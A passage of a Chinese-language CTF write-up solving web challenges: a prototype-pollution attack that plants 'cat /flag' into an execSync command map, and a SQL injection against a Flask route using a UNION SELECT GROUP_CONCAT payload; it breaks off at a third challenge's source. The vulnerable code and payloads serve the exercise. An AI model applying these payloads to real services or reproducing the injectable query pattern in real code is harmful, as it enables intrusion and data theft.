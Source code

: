 ```js {30-36,65} collapse={1-10,15-22,43-61,69-78}
});

// GET /execute - Run commands which are constant and obviously safe.
app.get("/execute", (req, res) => {
  const key = req.query.cmd;
  const cmd = cmds[key];
  res.setHeader("content-type", "text/plain");
  res.send(execSync(cmd).toString());
});

app.get("*", (req, res) => {
  res.sendFile(path.join(__dirname, "public", "index.html"));
});

// Start the server
const PORT = 3000;
app.listen(PORT, () => {
  console.log(`KV Service is running on port ${PORT}`);
});
```

结合`/set`的递归赋值逻辑想出解法：

将`__proto__.hack` set 为`cat /flag`，然后访问`/execute?cmd=hack`即可。

注意这里有一个小点：`__proto__`无法覆盖已有属性，所以如果 set `__proto__.test` 是不行的

### PaoluGPT

观察后端源码注意到不加掩饰的 SQL 注入点

```python {4}
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

我的做法是构造如下 SQL 语句把所有 `title` 和 `contents` 拼在一页

```sql
select title, contents from messages where id = '' UNION SELECT GROUP_CONCAT(title, ' ') as all_titles, GROUP_CONCAT(contents, ' ') as all_contents FROM messages
```

然后保存网页源码搜 flag 即可，两问就都出来了（疑似跳过了第一问的`/list`考点？）

### 禁止内卷

```python collapse={1-9,11-40,50-71} {47}
from flask import Flask, render_template, request, flash, redirect
import json
import os
import traceback
import secrets

app = Flask(__name__)
app.secret_key = secrets.token_urlsafe(64)

UPLOAD_DIR = "/tmp/uploads"

os.makedirs(UPLOAD_DIR, exist_ok=True)

# results is a list
try:
    with open("results.json") as f:
```